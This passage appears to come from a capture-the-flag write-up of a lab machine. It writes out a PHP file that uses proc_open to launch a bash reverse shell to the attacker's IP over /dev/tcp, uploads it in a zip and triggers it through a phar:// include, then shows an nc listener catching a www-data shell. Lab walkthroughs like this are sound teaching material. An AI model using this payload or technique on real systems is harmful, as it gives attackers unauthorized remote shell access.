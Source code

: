 ```
```

#### proc\_open

The [PHP docs](https://www.php.net/manual/en/function.proc-open.php) for `proc_open` describe it as:

> similar to [popen()](https://www.php.net/manual/en/function.popen.php) but provides a much greater degree of control over the program execution.

Some Goolging for “proc\_open reverse shell” leads me to [this repo](https://gist.github.com/noobpk/33e4318c7533f32d6a7ce096bc0457b7#file-reverse-shell-php-L62), where `proc_open` is called on line 69:

![image-20230117164456448](https://0xdfimages.gitlab.io/img/image-20230117164456448.png)

I’ll need to set `$shell` and `$descriptospec`. `$pipes` is not necessary since I’m just going to spawn a reverse shell, not try to read / write out of the process from PHP.

My reverse shell looks like, using a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as the payload:

```

<?php
        $descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1'";
        $proc = proc_open($cmd, $descspec, $pipes);

```

I’ll zip it:

```

oxdf@hacky$ zip rev.0xdf rev.php 
  adding: rev.php (deflated 35%)

```

And upload it. Now I trigger it just like with `phpinfo` above, getting the latest uploads directory, and visiting `/?page=phar://uploads/c96c440052e65f8e167cfe6248981ad9/rev.0xdf/rev`.

There’s a connection at my listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.177 60210
bash: cannot set terminal process group (907): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ 

```
